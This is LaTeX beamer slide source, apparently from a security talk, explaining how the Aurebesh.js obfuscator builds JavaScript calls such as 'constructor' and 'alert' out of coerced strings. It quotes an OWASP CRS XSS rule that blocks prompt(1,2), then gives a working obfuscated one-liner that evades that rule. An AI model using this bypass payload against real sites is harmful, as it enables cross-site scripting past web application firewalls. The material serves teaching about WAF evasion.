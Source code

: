 \documentclass[aspectratio=169]{beamer}
\begin{document}
\begin{frame}[fragile]{Aurebesh.js - How it works part 2}
	\begin{lstlisting}[style=basicStyle]
B[
  I +=              // "c"
    D[A] +          // "o" = "object"[0]
    (B.C+D)[A] +    // "n" = "undefined"[1]
    C[H] +          // "s" = "false"[3]
    E +             // "t"
    F +             // "r"
    B[G] +          // "u" = "true"[2]
    I +             // "c" = "[object]"[5]
    E +             // "t"
    D[A] +          // "o" = "[object]"[1]
    F               // "r"
\end{lstlisting}
\end{frame}

\begin{frame}[fragile]{Aurebesh.js - How it works part 3}
	\begin{lstlisting}[style=basicStyle]
][
  I                 // "constructor"
](
  C[A] +            //  "a"
  C[G] +            //  "l"
  B[H] +            //  "e"
  F +               //  "r"
  E +               //  "t"
  "(A)"             // "(1)"
)()
\end{lstlisting}
\end{frame}

\begin{frame}[fragile]{Aurebesh.js - prompt(1,2) blocked}
	\begin{lstlisting}[style=ruleStyle, language=XML]
<payload>prompt(1,2)</payload>

<message>"Javascript method detected"</message>
<file>"rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "714"] [id "941390"]<fileDetails>
<MatchedData>"prompt("</MatchedData>
\end{lstlisting}
\end{frame}

\begin{frame}[fragile]{Aurebesh.js - prompt(1,2) bypass}
	\begin{lstlisting}[style=basicStyle, language=Python]
A='',B=!A+A,C=!B+A,D=A+{},E=B[A++],F=B[G=A],H=++G+A,I=D[G+H],B[I+=D[A]+(B.C+D)[A]+C[H]+E+F+B[G]+I+E+D[A]+F][I]('p'+F+D[A]+'m'+'p'+E+'(A,++A)')()
\end{lstlisting}
\end{frame}
\end{document}
